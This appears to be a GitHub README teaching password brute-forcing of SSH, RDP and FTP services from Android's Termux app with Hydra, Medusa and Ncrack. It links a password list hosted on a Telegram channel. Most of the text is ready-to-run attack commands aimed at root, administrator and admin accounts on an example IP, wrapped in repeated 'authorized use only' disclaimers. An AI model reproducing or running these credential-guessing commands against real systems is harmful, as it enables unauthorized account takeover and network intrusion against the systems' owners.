 # Termux-Bruteforce
[How to Bruteforce a Network Services such as SSH, HTTP, FTP, Telnet, IMAP, SMB]


PASSWORD.TXT file can be found in Telegram Channel with link 👇👇
https://t.me/okrakucapital/1330

Or Download directly from here
[Download](Password_.txt)

As a Novice, I cannot promote or suggest any illegal or unethical activities that may harm any individual or organization. It is important to use technology, tools, and information only for ethical and lawful purposes, in compliance with local and international laws and regulations. It is recommended to use tools like Bruteforce only for authorized and legitimate purposes, such as testing the security of your own systems or with written permission from the systems owners. Using such tools for any illegal or unethical purposes without proper authorization can result in severe legal penalties and consequences.






If you have the appropriate authorization to perform a bruteforce attack on a system, then you can use the following tools on Termux:

**1. Hydra:** It is a fast and flexible login cracker which supports various protocols, including *HTTP, FTP, Telnet, IMAP*, etc.


**2. Medusa:** It is a command-line tool that runs on Linux, macOS, and Termux. It is designed to test the security of password-protected services, such as *FTP, SSH, IMAP*, etc.


**3. Ncrack:** It is a high-speed network authentication cracking tool which can be used to test the security of network services, such as *SSH, HTTP, SMB*, etc.


However, please note that bruteforcing any system without proper authorization is illegal and unethical and can result in severe legal penalties and consequences. Ensure that you have written permission from the systems owners to test the security.



**Here are some examples of using Ncrack on Termux:**



**[How to Setup NCRACK in Termux](https://github.com/okyerejosephokraku60/Ncrack)**

**1. Ncrack with SSH:**
To perform a bruteforce attack on an SSH server with Ncrack, use the following command:

```
ncrack -v -p 22 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 22 --user root -P passwords.txt 192.168.1.100
```

**2. Ncrack with RDP:**
To perform a bruteforce attack on an RDP server with Ncrack, use the following command:

```
ncrack -v -p 3389 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an RDP server with IP address 192.168.1.100 and username administrator, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 3389 --user administrator -P passwords.txt 192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.







**Here are some examples of using Hydra on Termux:**

**[How to Setup HYDRA in Termux](https://github.com/okyerejosephokraku60/Hydra)**

**1. Hydra with SSH:**
To perform a bruteforce attack on an SSH server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ssh://<target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
hydra -l root -P passwords.txt ssh://192.168.1.100
```

**2. Hydra with FTP:**
To perform a bruteforce attack on an FTP server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ftp://<target_ip>
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
hydra -l admin -P passwords.txt ftp://192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.









**Here are some examples of using Medusa on Termux:**

**[How to Setup MEDUSA in Termux](https://github.com/okyerejosephokraku60/Medusa)**

**1. Medusa with SSH:**
To perform a brute-force attack on an SSH server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ssh
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
medusa -u root -P passwords.txt -h 192.168.1.100 -M ssh
```

**2. Medusa with FTP:**
To perform a brute-force attack on an FTP server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ftp
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
medusa -u admin -P passwords.txt -h 192.168.1.100 -M ftp
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.
